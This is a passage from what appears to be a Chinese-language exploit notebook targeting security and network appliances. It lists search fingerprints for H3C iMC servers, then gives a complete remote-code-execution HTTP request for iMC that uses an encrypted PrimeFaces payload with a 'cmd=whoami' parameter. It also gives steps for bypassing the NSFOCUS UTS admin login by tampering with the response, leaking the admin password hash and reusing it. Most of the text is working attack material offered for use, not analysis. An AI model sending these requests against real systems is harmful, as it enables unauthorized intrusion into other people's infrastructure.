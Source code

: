 ```
body="/imc/javax.faces.resource/images/login_help.png.jsf?ln=primefaces-imc-new-webui"
```

```
body="iMC来宾接入自助管理系统"
```

##### 远程代码执行

```
POST /imc/javax.faces.resource/dynamiccontent.properties.xhtml HTTP/1.1
Host: xxx.xxx.xxx.xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 1567

pfdrt=sc&ln=primefaces&pfdrid=uMKljPgnOTVxmOB%2BH6%2FQEPW9ghJMGL3PRdkfmbiiPkUDzOAoSQnmBt4dYyjvjGhVqupdmBV%2FKAe9gtw54DSQCl72JjEAsHTRvxAuJC%2B%2FIFzB8dhqyGafOLqDOqc4QwUqLOJ5KuwGRarsPnIcJJwQQ7fEGzDwgaD0Njf%2FcNrT5NsETV8ToCfDLgkzjKVoz1ghGlbYnrjgqWarDvBnuv%2BEo5hxA5sgRQcWsFs1aN0zI9h8ecWvxGVmreIAuWduuetMakDq7ccNwStDSn2W6c%2BGvDYH7pKUiyBaGv9gshhhVGunrKvtJmJf04rVOy%2BZLezLj6vK%2BpVFyKR7s8xN5Ol1tz%2FG0VTJWYtaIwJ8rcWJLtVeLnXMlEcKBqd4yAtVfQNLA5AYtNBHneYyGZKAGivVYteZzG1IiJBtuZjHlE3kaH2N2XDLcOJKfyM%2FcwqYIl9PUvfC2Xh63Wh4yCFKJZGA2W0bnzXs8jdjMQoiKZnZiqRyDqkr5PwWqW16%2FI7eog15OBl4Kco%2FVjHHu8Mzg5DOvNevzs7hejq6rdj4T4AEDVrPMQS0HaIH%2BN7wC8zMZWsCJkXkY8GDcnOjhiwhQEL0l68qrO%2BEb%2F60MLarNPqOIBhF3RWB25h3q3vyESuWGkcTjJLlYOxHVJh3VhCou7OICpx3NcTTdwaRLlw7sMIUbF%2FciVuZGssKeVT%2FgR3nyoGuEg3WdOdM5tLfIthl1ruwVeQ7FoUcFU6RhZd0TO88HRsYXfaaRyC5HiSzRNn2DpnyzBIaZ8GDmz8AtbXt57uuUPRgyhdbZjIJx%2FqFUj%2BDikXHLvbUMrMlNAqSFJpqoy%2FQywVdBmlVdx%2BvJelZEK%2BBwNF9J4p%2F1fQ8wJZL2LB9SnqxAKr5kdCs0H%2FvouGHAXJZ%2BJzx5gcCw5h6%2Fp3ZkZMnMhkPMGWYIhFyWSSQwm6zmSZh1vRKfGRYd36aiRKgf3AynLVfTvxqPzqFh8BJUZ5Mh3V9R6D%2FukinKlX99zSUlQaueU22fj2jCgzvbpYwBUpD6a6tEoModbqMSIr0r7kYpE3tWAaF0ww4INtv2zUoQCRKo5BqCZFyaXrLnj7oA6RGm7ziH6xlFrOxtRd%2BLylDFB3dcYIgZtZoaSMAV3pyNoOzHy%2B1UtHe1nL97jJUCjUEbIOUPn70hyab29iHYAf3%2B9h0aurkyJVR28jIQlF4nT0nZqpixP%2Fnc0zrGppyu8dFzMqSqhRJgIkRrETErXPQ9sl%2BzoSf6CNta5ssizanfqqCmbwcvJkAlnPCP5OJhVes7lKCMlGH%2BOwPjT2xMuT6zaTMu3UMXeTd7U8yImpSbwTLhqcbaygXt8hhGSn5Qr7UQymKkAZGNKHGBbHeBIrEdjnVphcw9L2BjmaE%2BlsjMhGqFH6XWP5GD8FeHFtuY8bz08F4Wjt5wAeUZQOI4rSTpzgssoS1vbjJGzFukA07ahU%3D&cmd=whoami
```

## 二、网络检测与响应

### 0x01 蜜罐

### 0x02 IDS

#### 绿盟 UTS 综合威胁探针

##### 管理员任意登录

输入 admin/任意密码，点击登录。更改响应包，将 {"status":false,...} 中的 false 改为 true，此时，响应包将泄露 admin 用户密码的 md5 值。

利用 md5 值登录页面：

```
POST /webapi/v1/authen_user

{"username":"admin","password":md5}
```
